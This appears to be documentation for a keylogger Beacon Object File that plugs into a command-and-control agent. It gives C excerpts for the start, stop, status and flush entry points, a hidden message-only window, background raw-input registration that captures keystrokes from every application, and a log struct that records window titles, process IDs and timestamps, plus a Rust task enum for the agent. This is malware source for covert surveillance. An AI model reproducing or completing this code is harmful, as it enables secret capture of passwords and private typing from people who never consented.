 ### Entry Points

The keylogger BOF provides four primary entry points:

```c
DWORD keylogger_start(char* args, int length);   // Start capturing keystrokes
DWORD keylogger_stop(char* args, int length);    // Stop and cleanup
DWORD keylogger_status(char* args, int length);  // Get current status
DWORD keylogger_flush(char* args, int length);   // Flush buffered data
```

### Key Components

#### Window Management
```c
// Hidden message-only window for receiving raw input
HWND window_handle = CreateWindowExW(
    0, NEXUS_KEYLOG_CLASS_NAME, NULL, 0,
    0, 0, 0, 0, HWND_MESSAGE, NULL,
    GetModuleHandleW(NULL), NULL
);
```

#### Raw Input Registration
```c
RAWINPUTDEVICE rid = {
    .usUsagePage = HID_USAGE_PAGE_GENERIC,
    .usUsage = HID_USAGE_GENERIC_KEYBOARD,
    .dwFlags = RIDEV_INPUTSINK | RIDEV_NOLEGACY,
    .hwndTarget = window_handle
};
```

#### Data Capture
```c
// Process each keystroke with context
typedef struct {
    WCHAR window_title[NEXUS_MAX_WINDOW_TITLE];
    DWORD process_id;
    SYSTEMTIME timestamp;
    WCHAR keystroke_data[NEXUS_KEYLOG_BUFFER_SIZE];
    DWORD data_length;
} NEXUS_KEYLOG_ENTRY;
```

## Agent Integration

### Task Types

The keylogger integrates with the agent's task system through four task types:

```rust
pub enum TaskType {
    KeyloggerStart,   // Begin keystroke capture
    KeyloggerStop,    // Stop and collect data
    KeyloggerStatus,  // Check operational status
    KeyloggerFlush,   // Force data collection
}
```
